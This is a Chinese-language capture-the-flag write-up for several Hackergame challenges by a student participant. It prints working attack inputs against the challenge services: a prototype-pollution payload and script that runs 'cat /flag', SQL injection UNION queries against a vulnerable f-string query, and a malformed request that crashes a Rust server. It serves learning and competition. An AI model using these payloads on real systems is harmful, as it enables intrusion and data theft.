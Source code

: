 # Ethan's Write-Up

> [!NOTE]
>
> 前言：笔者是比赛周期中考试的高二菜鸡，因此只参加了 24 小时的 Hackergame，因此并没有做出多少题目

## 签到

签到题应该算是简单的。打开控制台，看到是 `inputs-container` 组件，于是 `querySelectorAll('*')` 一下，就差不多了。

```js
document.getElementById('inputs-container').querySelectorAll('*').forEach(x => x.value = x.placeholder.includes(':') ? x.placeholder.split(': ')[1] : x.placeholder.split('：')[1])
```

然后就「等不及了，马上启动！」

## 喜欢做签到题的 CTFer 们大家好啊

> 有一个问题，就是最开始开代理时无法访问

Google 搜了好久，找到链接：https://github.com/Nebula-CTFTeam/.github。点击去链接，习惯性 `help`，一个个试，到 `env` 就出来了第一个 Flag：

![hello](./assets/QQ_1731146560104.png)

然后点到 `source` 控制台，点开 Network，找到了 `env` 命令的后台代码（其实是疯狂找源代码里的 `flag`）

![hello](./assets/QQ_1731146990292.png)

然后找到第一个发现是 `base64` 编码的，后面一个又找了找就来了。

## 打不开的盒

Xcode 打开看了看就搞定了

![hello](./assets/QQ_1731147105682.png)

## 每日论文太多了！

点进论文，直接搜 `flag` 结果找到东西：

![QQ_1731147155436](./assets/QQ_1731147155436.png)

找到那里，然后把东西滑下来，搞定。

<img src="./assets/QQ_1731147218852.png" alt="QQ_1731147218852" style="zoom:33%;" />

> 这下知道怎么论文藏私货了

## 比大小王

发现 `state` 全局变量，本来篡改 score1 以为可以了，结果「非法提交」。

于是只能当人机了：

```js
state.inputs = state.values.filter((_, idx) => idx !== 99).map(x => x[0] < x[1] ? '<' : '>')
state.score1 = 99
chooseAnswer(state.values[99][0] < state.values[99][1] ? '<' : '>')
```

可是还是让小孩哥写了几道题……

## Node.js is Web Scale

目标是执行 `cat /flag` 命令，因此简单看一下。直接 `__proto__.evil` 就可以了。

```http
POST /set
Content-Type: application/json

{
    "key": "__proto__.evil",
    "value": "cat /flag" 
}
```

然后简单的 `execulate` 一下，即可。懒得手写代码，让 `Claude` 写一下：

```js
async function pollute(cmd) {
    const res = await fetch('/set', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            key: '__proto__.evil',
            value: cmd
        })
    });
    return await res.text();
}

async function execute() {
    const res = await fetch('/execute?cmd=evil');
    return await res.text();
}

async function check() {
    const res = await fetch('/get?key=__proto__');
    return await res.text();
}

// One-liner exploit function
async function pwn(cmd) {
    console.log('[+] Polluting with command:', cmd);
    await pollute(cmd);
    console.log('[+] Checking pollution:');
    console.log(await check());
    console.log('[+] Executing:');
    console.log(await execute());
}

pwn('cat /flag')
```

## PaoluGPT

典型的数据库注入题目。

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

用 `f-string` 于 SQL 也是逆天。

### 千里挑一

```sql
' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' --
```

然后翻到页底就找到了

### 发现未知

```sql
1' UNION SELECT id, title FROM messages WHERE shown = false AND (title LIKE '%flag{%' OR contents LIKE '%flag{%') --
```

## 惜字如金 3.0

### A

发给 Claude 解决了

## 优雅的不等式

### Easy

发现
$$
\int_0^1\dfrac{4}{1+x^2}=\int_0^14\sqrt{1-x^2}=\pi
$$
因此，直接 $\dfrac{4}{1+x^2}-\dfrac{14}{3}+4x$ 即可。

## 动画分享

### 只要不停下 HTTP 服务，响应就会不断延伸

作为一个 [Rustacean](https://github.com/7086cmd)，自然看到最容易 `panic` 的不是 `unwrap`，而是：

```rust
let your_string = "😅"
println!("{}", your_string[1..])
```

这下就 panic 了！

```http
GET 😅 HTTP/1.1
```

## 禁止内卷

看到 `os.path.join`，伪造一个文件即可（代码学校写的）。
